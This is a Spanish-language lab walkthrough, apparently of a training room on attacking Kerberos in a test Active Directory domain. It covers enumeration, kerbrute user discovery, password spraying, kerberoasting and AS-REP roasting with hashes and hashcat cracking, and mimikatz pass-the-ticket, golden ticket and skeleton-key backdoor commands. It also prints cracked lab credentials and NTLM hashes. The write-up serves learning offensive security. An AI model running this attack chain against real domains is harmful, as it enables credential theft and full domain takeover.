

# Attacking kerberos

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.29.113 -oN allPorts.txt                                                                                                  
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49672/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49678/tcp open  unknown
49688/tcp open  unknown
49698/tcp open  unknown
```

```bash
nmap -sC -sV -p22,53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49667,49669,49672,49673,49674,49678,49688,49698 10.201.29.113 -oN target.txt 

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:f2:8b:17:15:7c:90:d7:4e:0f:8e:d1:4c:6a:be:98 (RSA)
|   256 b0:3a:a7:c3:88:2e:c1:0b:d7:be:1e:43:1c:f7:5b:34 (ECDSA)
|_  256 03:c0:ee:58:32:ae:6a:cc:8e:1a:7d:8b:20:c8:a2:bb (ED25519)
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-05 21:17:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CONTROLLER-1.CONTROLLER.local
| Not valid before: 2025-10-04T21:11:35
|_Not valid after:  2026-04-05T21:11:35
|_ssl-date: 2025-10-05T21:18:36+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CONTROLLER
|   NetBIOS_Domain_Name: CONTROLLER
|   NetBIOS_Computer_Name: CONTROLLER-1
|   DNS_Domain_Name: CONTROLLER.local
|   DNS_Computer_Name: CONTROLLER-1.CONTROLLER.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-05T21:18:26+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CONTROLLER-1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-10-05T21:18:26
|_  start_date: N/A
```

Nos enfrentamos a un DC, averiguamos el nombre del dominio

```bash
nxc smb 10.201.29.113                                                                                                                                                      
SMB         10.201.29.113   445    CONTROLLER-1     [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False) 

nxc smb 10.201.29.113 --generate-hosts-file name_hosts
SMB         10.201.29.113   445    CONTROLLER-1     [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLLER-1) (domain:CONTROLLER.local) (signing:True) (SMBv1:False) 

cat name_hosts 
10.201.29.113     CONTROLLER-1.CONTROLLER.local CONTROLLER.local CONTROLLER-1
```

Descargamos la lista de usuarios que nos entregaron.

```bash
 curl https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/refs/heads/master/User.txt > users.txt
 ```


###  kerbrute

Buscamos nombre de usuarios válidos

```bash
kerbrute userenum -d CONTROLLER.local --dc 10.201.29.113 users.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/05/25 - Ronnie Flathers @ropnop

2025/10/05 18:23:49 >  Using KDC(s):
2025/10/05 18:23:49 >  	10.201.29.113:88

2025/10/05 18:23:50 >  [+] VALID USERNAME:	administrator@CONTROLLER.local
2025/10/05 18:23:50 >  [+] VALID USERNAME:	admin2@CONTROLLER.local
2025/10/05 18:23:50 >  [+] VALID USERNAME:	admin1@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	machine1@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	httpservice@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	machine2@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	user3@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	sqlservice@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	user2@CONTROLLER.local
2025/10/05 18:23:52 >  [+] VALID USERNAME:	user1@CONTROLLER.local
2025/10/05 18:23:52 >  Done! Tested 100 usernames (10 valid) in 3.058 seconds
```

Usuarios encontrados

```bash
cat domian_users.txt | awk '{print $ 7}' | sed 's/@CONTROLLER\.local//g'
administrator
admin2
admin1
machine1
httpservice
machine2
user3
sqlservice
user2
```

```bash
cat credential.txt 
Administrator / P@$$W0rd
```

Conexión por evil-winrm

```bash
evil-winrm -u 'administrator' -p 'P@$$W0rd' -i 10.201.29.113   

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
controller\administrator
```

### Rubeus

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Downloads> .\Rubeus.exe harvest /interval:30
```


Agregamos el dominio al hosts de windows

```bash
echo '10.201.29.113 CONTROLLER.local' >> C:\Windows\System32\drivers\etc\hosts

type C:\Windows\System32\drivers\etc\hosts
10.201.29.113 CONTROLLER.local
```

Nos conectamos por RDP.

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:10.201.29.113 /d:CONTROLLER.local /cert-ignore /dynamic-resolution 
```


```powershell
.\Rubeus.exe brute /password:Password1 /noticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7btpEEDZNpUAXL8igHQVHUgxEntJfYFU/z+mKD7Q3JaqDC8M3bUMGRX4sA+gMjlRk65RVUDxCdIq
      PpS2s67GUXDWczjakmJ7FHEuqVaftKZITtBWi40FP/X7sNwA3m3FBXfFVcTSNcMQP52XFX2hsiZqjj68
      36OeLV6FZrKNta+5cKhsV3aYGP56z7WHQ8iNS8i0Xcny8PC8CglIN9Os4f7D3Tp7vT/FpRxfEp1JN7Yq
      pRbiDXpFHrG8+Rd362QqkQxv2lDRPQJsDLe9zh+0R3C53zFxNESSoaNNP/CgN+lyRoEtpOjXjjKYurmd
      XwDMedhAetNa3nHpvyhFJPP6D4KnRC8GC1OGgGvXYXI7sJZHhZnUZCkhvMhptP2Hp4/9lUva+huYNyK7
      jCkmcZPrA/bC30Gjv35ejsyKuI3V3YmghVMcOzQMe3aVJIXpxisv4P5rNNIpPBT4WFqOHyFJS4Fg84ha
      IidYnPRiQbJSa/d9Uv7qD6wum6R8fQ4S6ZggkViOm9NNRFc7Apbc/js+WtKPo57HO4Hdka73pPaip+wo
      la0rKc5H2jFDqlbpQENH0V9uHHFoz0+TaSpIu+MSGjRSnYR47Ind46fwAtRwNA3cX+FhwDD2Dr/JdF2R
      kVgNwKXWzODcc3A22NCpGiqyagQDREQ/34GVa+jF+OYNaqdaXyQ3e8AEnRJldMNfkpbTGAM1mBrtipej
      1LasyQS6DdXEwcC6GXR6d/eEbApAYSlKt7Xasy/wNI7uY9qlX4CCuSOYvbh1UeMeuYvDrOBHAPMLB1w4
      zCSRsbWK9GyQT0lXF6IDpFGZSdE1WMhm5Rn9kpq+rF30XjJ/DjGJ0ECprwY5GmgNmxngrM3412ZCQTMx
      v8fQQB1stgfd8qr1t7T8142+Vwh72v7A8hzCn1nxUQsjHo3cCzUzbza/jAnxsJfDVGQBuDsz9jVR7LoB
      OPxg8a0m1/R06fFtPCiHjT857Xhz4n+SaNRHRv7QjFNCq7cdlLnEZdwgFowDssubYD/jWtGnYSUOFNYS
      sbSk53L8iPURtJZ4mTAelz/rhSdJUediGKjmKCw4JKFbJMFoXHK0vPu7Kwbft34UrbgHwEROSTKlL0vB
      PYkPFoOAbOkH7TwGoztrsT4boNV9uPOamf++CZZyJV6TnbKh3pHRedY1CjFjxfK7WQzi7duL8kj2W9gq
      wp8GqQZCPmY5BDh5YZhjVZn8PtrCOM2p2TSPgqUkIxAMT5SpU22gaewvVmXMsy4rJgisEaMYjcIcAgKB
      IaDZwBIDDnMweUgmG2wDJYx5YnUiorX866jLFAgGk7IeAaxTHiNZ2CSDJwSrll7MXqOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIAI5pjGVKypcNWXITJ4GS3dnEGn9Vpxt1+Ci
      DRzqIXJ+oRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDI1MTAwNTIxNTA1OVqmERgPMjAyNTEwMDYwNzUwNTlapxEYDzIwMjUxMDEyMjE1MDU5WqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs

[+] Done
```

### Kerberoasting w/ Rubeus & Impacket

```powershell
.\Rubeus.exe kerberoast
```


Guardamos el Hash generado con Rubeus.

```bash
cat hash.txt      
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$07D083365FB5F970FC297F75B6A3988C$256F5D89FBD0318A76869C3159EA83D5903EB35FEE8E1958D6E518523A40152C1A90C816D43B266647DE4E5CF152BB4AE5F20DD46A3C12E7F8FE5E15B3954CC8DA55392505C5C99B68D6E6A01D5CB8385D58B483456848855162360A367454E9C9FB2A9551A92F17DB99BC00D9333508880D4ED834736F2122D2B82361DFD1BC175F34748124C7DE122B1D5CF0EFCB0E3E11839DEC1650AB4F4A126339DA99C035EC711543B76C903924CE65EE481361083956CBB9D651FF24DE4D95D017F9E6D4350F77FAB7EDD2D4B3B446952AA9E95DA6C001A9D0D3C503BC918A1245DF65B3A85E1CD4D43E5978AD4F23CC973894F267997404B24510CAA243AEC52A4DBFCF22B45E11472B3479C7AB909695F6168892DEEF0E5F86C002A81CC52745192C3827302982EFB91429CF11D683D223B82F300050C80CBF5C1C5497DA30371BDDEE821C8858C39B31C016D8E7D469258FF9C5E665452B78E62B671404350A937A3A72E3E5D5D009BD2D3741AF9CA9D37D952E45D83F96E749FBCFAB9C161ACC3F4A6428019F353F19C00E272933277EB3EA120ACED5844D097361ACBBF3C335E64D059E09801D1CF674E90E7EF8152B519C27AA3D6F47BCBE987D65251C22736833734C89F0826B1867717A5DBCB3CF52B2A30C5D0440DB5CCDC5EAD000D0FBB2F9B67F69293B93D07D5F0D5449658BBFD2968A9C664EFE058464B4B1CF98D53327E7B0138C08F1DD22DD04C2EF5DA42F4F86CC13C95CEB417C199A033E46DBA190D8852C30D239DC6D2780A6F284E7586490C6B054C23296F3DF660CA522D05F404394ADCBB69D65E363D148EF77B7C3DF0AB812458F499266C81C3A9458B39C19F3CB1343257EF90FF9937F0AAFD43EC44331D07DD379FAD69BAA2E9EF177FFC0D61AD0C833C4E324D211562C1B3D8BC15580BF3D2D568FF544D0F9B6615F822B70935E4131E3DC702DC21AE234D6A205C911C18D0F42DCEE2D1FDB0C337B87111E79E4AFA0276C6F4C3C086E3329660C8231BC487D821A841E871C9B4557C024AF1365B5B9D9D89E55796B6C91010AF697BA6CB1A315A444D23EF21E82EC076E7C0E56727448EF96896C8786C2904711DA468A8DD6977706D104FB8C4105428D5BCB7F39DA564260776C18200FCA08469ED0982645950CADA4B1F41F149726DE647ED25F8160439AF039739A1411C8C48507A76029C6EBC22C0ECE50E6C4CF97C9448660692ECBA0D8876462A6BBBAD8306B9492B1DD59651C769C8FBEA0E483954487A0135C2AC793D4D4D14A798030B32C659427189A4C60E32191893FCEBB2C350F683CAE8702C29800A2992A0B06570AC442530C5990D97FF982B4AB57CB2746EDF1938AD443844056FA517613BB2F374CFF986782BE6B9F84091EF85CB7D53A37BCEA7C5693D036A8EF86FE2450AC0756FD7EE450D1C047BF88BF3E2846DE0AE2A54B13F38FA4A858A8C77857735873F1B3357AB0B63F205AC99453F74517E26F7DA6BCA8D39CF4F12000BEE1B38F05CC1BD5FA018D68649CEB42E26AABDA82E8AEDF3718EF20A4961C5CCCC0CC4A07BB15B04D85F554D5F37E6DA71355AD11B78D49DC884322193E833ACAF555F56FFD6D017D904F9C69E07AE9951FBA1A7ACB8B6B38776E5D57FE00D0C2D5
```

Descargamos la lista de passwords que nos entregaron.

```bash
curl https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/refs/heads/master/Pass.txt > passwords.txt
```

Crack de contraseñas

```bash
hashcat -m 13100 -a 0 hash.txt  passwords.txt
```


Agregamos nuestra nueva contraseña 


| User | Password |
| --- | --- |
| SQLService | MYPassword123# |


```bash
cat hash_http_service.txt 
$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1HTTPService.CONTROLLER.local:30222*$1472C79BAA8A22CFE8E5C7FFA1DD6FFD$38BE781DDDCEB46953DD3A649DD55B580B3EA222E2ED7D8BDE0ED879971A14416F3C2F4EEA564E4AEADBA6E56BECE39FC191691703D0C144A1ACB7A3EAD2762F3E3CB51946A42C5063794A9E2C4FE2C30C32C10319A466420DB31F00557E3595468FF5ADBECD8DB82CF90644C535D9188C952315F124416E913BF7FE6E0745ECC33D682D758FE6E24E03D20AAE74AD3165766C155CB6047A8A40362F680926CE97EBD2D679C91A9AE1AA22E4D411C07B156CA260052EEBFBFF31A592AC37E281354FC08632FBED6832A281244EF632B7602F2B456F88FBDE7BF69F8DA61550404A17D4487C9F653EF3C3DE4BF1E91C5E8D321DC4FBFEA2512E0B222F0078CAF1780DFDB85C19E57922862BAA7E119EE19BE1434AAE5E69A703A8268F1F58D34960CC5005063B59A226172B5E2074DA0179D1BD4CCEEAC4ECC73A6F620201E2C8296DDB95B1E610053E6B1EDB90715689E082CD920F54A8E642F57EAB97FC98FA5567DFE3C606BD4918CE522C5FF8C76D256FA8EBDA1F74A86A7539E1B91B5EB0FE235CA36B46A774B39BF58685A74DEF82564BB0B137E1114E8B192D3B4645C962B28D7ADD6D1764206A0C1C7D132F4B513FB3C9C6EE5D17F336CDCC0ECCE98DFE6DE46C851BC5F26E693FC54455DE26EF519827CA135486A07188E756767736C7E430A6BC196307AB2791D3285029D2B2D534580FB9F2BF0931498A3DDD8897D8E679144FA14B677A8DEF3E04ECF76EC7575FEE88341D7A7B725079CAAE4EC4C64821832A8222FCB3C0FBF649813AB84E3202DF0C3FD1C65DF60FBF4B1EF0EA0810C3A12E58C31FB75F312FF691D5E52ADE53B49247029048021A1FE511431FF0908F5C5E432F2971B216A667DE7C53AB1B5FC28680FCD1C932940AC39D852D387A371E37373F62CEEDDE3F3CC72000336E5EF62FE6254946F69B65D6536C2ACAC586A19435AD42C4019329AB166735DCFB66E61F578797A393FD18275011FE8DECF12B7AA3EC384A0C5EC40225D15C11D3D407EFE210A03C5BE078CFB819814B1E908E83D8C79D0B84164A568258A01BCCA412595D8B3A87C5ACCB100422136942D77D1E217BD54097BE9F4E7B60217B39A764BBF368ECE66411D1B04E9DF530807ED93A52EB56A1535C083E11F15EA1717C1AEA465AC4645A10EE974BC1710524442C33CA60D46D8FDAB1B623AD80C07199B60DA3D56F49A55A7673CA498993100F3E7010540829087362872D5DE5B0E4D1849A57846269C84E343A9DB8BEC7B619F633AF1862C26ED346BF99EE1E760DD4C82ADE2383C3099C669BD8086F85C994C8E84668F13DCAE44715CDF1BA6F1BA233358FC621058FDCF9C9BF2B21BD33B1D661DEA4AC024E1757F3EDFB2BB94DDA857CFDC84D482508A02302AFE1309AAF9AFF17E83A836AC7D8AB03E71DF39CDF06A193EB66605B4CC8621978F61E942910F98450D8AE39A1A0D72D915A0097C7EE73C057C4270F1C84EDE9CF7D43511F3F8325D8372D5A791136B69DA05F181E4CE67C3B2CB38DC98B6928595D98E75099780ED0CC447126294F532A4D58446059470C714F337F7503EEB883A3990415B77495C147FAC54A7195B482EAF0DF80454E71FF7FCD32C577517157F8E54CAABB180EF2B4B03FF61A94FC2205
```

Crack del http service

```bash
hashcat -m 13100 -a 0 hash_http_service.txt passwords.txt ****
```


| User | Password |
| --- | --- |
| Administrator | P@$$W0rd |
| SQLService | MYPassword123# |
| HTTPService | Summer2020 |


### AS-REP Roasting w/ Rubeus

```powershell
.\Rubeus.exe asreproast
```


Guardamos nuestros nuevos hash encontrados.

```bash
cat hash_admin2.txt      
$krb5asrep$Admin2@CONTROLLER.local:65670B034E85DC7A84C4CAC6DF16B351$47A82FD49F58E4183616252B083617B19B12AC28FDC2523B28A4CA2F77BEE1C526AB411DF8220B51DB2AEA207469FDDB2CE8F023CD62B7E48E62D0127A066A14D6C245EA551A10D74559F6F8013E00C95722D31EEDF44869EB2C47B65F060434233988B8763CD92F34134983492864A53F527A3252A2E7B662BA92D37A9675B8F7C7888FB3562507DA9F4C8FB5DFB4F7A137668841FD62BE22EAF4C182D27E12EB3D8828C64A5EFFB72798E4ED600E2F3BDDF08DFE2C8C2160284483E72591DF0D65CE8C108D4CB40A1D521820F46DF861D493115B95C0F744FE6FC31EEB2789645461385C6214354E39A9C47C7CB5AF82003E9E

cat hash_user3.txt 
$krb5asrep$User3@CONTROLLER.local:6EDC19211E4862742A7AE6CAE88235BD$483DFE9B9D1FC04E2E4FD18EBB3419272EDF63A7A4CA0062831DFF8D2E948B2A468736722BC475E24002ED1D6F4CF24A78F0FBE48D29688E12CE5E23F41A9CF90C060E81AD20C39FAE5F572714CEB3C48BA6ACF344E858E30BD11F4F826EE26320645F459263200BC41B72E608EAFF504751AAD4DECD9B527F90F32518EFF3C64FA308A51A6E289A5B49BC57177025AD0C695A65D8CE3880B425E0FC5092C4DA47DA2604D3BBF9FDE1A4F4EDF4A33887016CEF88BA979A5B1B36A97FBA579915A83E1FDF64D0C847D4887CDEFE5896C3E61CD9657173DB553ACCB6437C56E674B66B429A8B709C04D2925DF559C5BD6BB6B0E5BF
```

Crack de los Hash

```bash
hashcat -m 18200 -a 0 hash_admin2.txt passwords.txt  
```


```bash
hashcat -m 18200 -a 0 hash_user3.txt passwords.txt
```



| User | Password |
| --- | --- |
| Admin2 | P@SSW0rd2 |
| User3 | Password3 |


### Mimikatz

Pass the Ticket w/ mimikatz

```powershell
.\mimikatz.exe

mimikatz # privilege::debug

mimikatz # sekurlsa::tickets /export
```


```shell
mimikatz # kerberos::ptt [0;7fbb3]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```


```powershell
dir \\10.201.99.85\admin$
```


Golden/Silver Ticket Attacks w/ mimikatz

```powershell
.\mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
```


Guardamos el SID y el NTLM

```bash
/sid: S-1-5-21-432953485-3795405108-1502158860
/krbtgt: 72cd714611b64cd4d5550cd2759db3f6
```

```powershell
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```


```powershell
misc::cmd
```


```powershell
lsadump::lsa /inject /name:administrator
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
NTLM : 2777b7fec870e04dda00cd7260f7bee6

lsadump::lsa /inject /name:sqlservice
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860
NTLM : cd40c9ed96265531b21fc5b1dafcfb0a
```


```powershell
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:2777b7fec870e04dda00cd7260f7bee6 /id:500
```


Kerberos Backdoors w/ mimikatz

```powershell
.\Mimikatz.exe

privilege::debug

misc::skeleton
```


Accessing the forest - 

The default credentials will be: "_mimikatz_"  

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.